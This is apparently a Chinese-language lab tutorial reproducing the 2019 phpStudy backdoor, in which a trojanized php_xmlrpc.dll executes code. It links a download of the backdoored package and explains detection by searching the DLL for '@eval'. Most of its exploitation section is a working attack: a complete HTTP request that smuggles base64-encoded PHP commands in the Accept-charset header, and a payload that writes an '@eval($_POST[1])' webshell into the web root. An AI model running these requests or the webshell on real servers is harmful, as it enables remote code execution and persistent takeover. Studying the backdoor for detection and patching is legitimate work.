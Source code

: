 ### 0x01 漏洞简介

2019年9月20日，网上传出 phpStudy 软件存在后门，随后作者立即发布声明进行澄清，其真实情况是该软件官网于2016年被非法入侵，程序包自带PHP的php_xmlrpc.dll模块被植入隐藏后门，可以正向执行任意php代码。

影响版本：

*   phpStudy2016-php-5.2.17
*   phpStudy2016-php-5.4.45
*   phpStudy2018-php-5.2.17
*   phpStudy2018-php-5.4.45

> 更多漏洞细节参考文章：[PHPStudy后门事件分析](https://www.cnblogs.com/17bdw/p/11580409.html)

### 0x02 环境准备

本次漏洞复现的演示靶场为phpStudy 2018中的php-5.2.17+Apache环境

*   phpStudy 2018 后门版：[点击下载](https://pan.baidu.com/s/1VN3pur16wGCNJfoLmgVXFA) 提取码：`nlnq`

靶机环境搭建成功后，即可访问phpinfo页面

![](https://ask.qcloudimg.com/http-save/yehe-3599665/23fb6159f6fac84f4d74ca683648f244.png?imageView2/2/w/1200)

### 0x03 漏洞检测

`phpStudy`的后门问题代码存在于以下路径文件中

```
# phpStudy2016路径
php\php-5.2.17\ext\php_xmlrpc.dll
php\php-5.4.45\ext\php_xmlrpc.dll

# phpStudy2018路径
PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll
PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll
```

使用记事本打开`php_xmlrpc.dll`并搜索`@eval`代码，如果出现`@eval(%s(‘%s’)`字样，则证明漏洞存在。

![](https://ask.qcloudimg.com/http-save/yehe-3599665/1476ce996cbac18351ee64c40c61678e.png?imageView2/2/w/1200)

### 0x04 漏洞复现

#### 1\. 发现漏洞

BurpSuite是在做[渗透测试](https://cloud.tencent.com/product/wpt?from=20065&from_column=20065)时必不可少的抓包工具，因此利用BurpSuite的扩展插件在抓取数据包时进行自动分析检测，非常便捷。

*   BurpSuite-Extender-phpStudy-Backdoor-Scanner：[点击下载](https://github.com/54Xxcong/BurpSuite-Extender-phpStudy-Backdoor-Scanner)

插件安装成功后，在每次抓包时就会自动的扫描分析漏洞是否存在，若存在漏洞，则会提示相应的告警信息。

![](https://ask.qcloudimg.com/http-save/yehe-3599665/0da80054b529669072c26942fe6965f7.png?imageView2/2/w/1200)

#### 2\. 手工验证

用BurpSuite将存在漏洞的数据包发送至Repeater模块进行测试，只需修改数据包中如下两处位置即可

```
# 将要执行的代码进行Base64编码，例如：system('whoami');
Accept-charset: c3lzdGVtKCd3aG9hbWknKTs= 

# 注意删除gzip,deflate之间的空格，否则不生效
Accept-Encoding: gzip,deflate 
```

![](https://ask.qcloudimg.com/http-save/yehe-3599665/017b85e293d83a39515ba4ccab48a2ac.png?imageView2/2/w/1200)

具体数据包如下：

```
GET /phpinfo.php HTTP/1.1
Host: 192.168.126.129
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-charset: c3lzdGVtKCd3aG9hbWknKTs=
Accept-Encoding: gzip,deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

#### 3\. 写入webShell

写shell的前提是知道网站的物理路径，可以自行通过system()命令获取到网站路径

```
# 写入命令：
fputs(fopen('C:\phpStudy\PHPTutorial\WWW\shell.php','w'),'<?php @eval($_POST[1]); ?>');

# Base64编码命令：
ZnB1dHMoZm9wZW4oJ0M6XHBocFN0dWR5XFBIUFR1dG9yaWFsXFdXV1xzaGVsbC5waHAnLCd3JyksJzw/cGhwIEBldmFsKCRfUE9TVFsxXSk7ID8+Jyk7
```

![](https://ask.qcloudimg.com/http-save/yehe-3599665/43a846f1b79e92b39582ef99495d1b31.png?imageView2/2/w/1200)

写入成功后即可用webshell管理工具进行连接

![](https://ask.qcloudimg.com/http-save/yehe-3599665/eb65fe5c4f2ccd58fc4a90d386de5f5d.png?imageView2/2/w/1200)

### 参考文章

*   [https://www.cnblogs.com/17bdw/p/11580409.html](https://www.cnblogs.com/17bdw/p/11580409.html)
*   [https://github.com/Writeup007/phpStudyBackDoor](https://github.com/Writeup007/phpStudyBackDoor)
*   [https://www.freebuf.com/vuls/246979.html](https://www.freebuf.com/vuls/246979.html)
